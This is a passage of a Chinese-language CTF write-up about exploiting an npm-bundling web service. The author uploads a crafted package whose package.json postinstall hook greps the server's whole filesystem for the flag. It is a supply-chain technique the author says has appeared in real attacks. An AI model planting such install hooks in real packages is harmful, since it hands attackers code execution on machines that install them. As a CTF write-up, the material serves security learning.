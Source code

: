 [![](https://www.zhaoj.in/wp-content/uploads/2019/06/15613036536833a4fe165f2e8294c8c6c50e518acb-1024x316.png)](https://www.zhaoj.in/wp-content/uploads/2019/06/15613036536833a4fe165f2e8294c8c6c50e518acb.png)

提示 `{"npm":["jquery","moment"]}` ,其功能为下载 npm包打包之后提供二次下载。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/156130387776b114348a166bfc079c2de68da5fbbe-1024x310.png)

![](https://www.zhaoj.in/wp-content/uploads/2019/06/156130387776b114348a166bfc079c2de68da5fbbe.png)

提示 key 为 abcdefghiklmn123，接口地址 /upload。

经过观察，测试，得到该接口的正确用法：

[![](https://www.zhaoj.in/wp-content/uploads/2019/06/15613040245952d03c97c1fde228e4ef9544178a99-1024x515.png)](https://www.zhaoj.in/wp-content/uploads/2019/06/15613040245952d03c97c1fde228e4ef9544178a99.png)

5、然后参考 [https://juejin.im/post/5971aa866fb9a06bb5406c94](https://juejin.im/post/5971aa866fb9a06bb5406c94) 自己来构造一个包，里面不需要有实际内容，主要利用 npm 包 package json 里 script 段的 postinstall 配置，这种攻击在现实中也出现过。[https://www.anquanke.com/post/id/85150](https://www.anquanke.com/post/id/85150)

构建步骤：

```
> mkdir glzjintest1
>cd glzjintest1
>npm init1
```

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561304863048a861560598b42d2547ee1be5a0ac2-1024x795.png)

新建一个 index.js，内容如下

```
exports.showMsg = function () {
  console.log("This is my first module");
};
```

编辑 package.json，

```
{
  "name": "glzjintest1",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "grep -rn 'sctf' / > result.txt; exit 0"
  },
  "author": "",
  "license": "ISC"
}
```

主要是改 scripts，postinstall 里面为你想执行的命令。这里我主要是想搜搜有没有 flag。

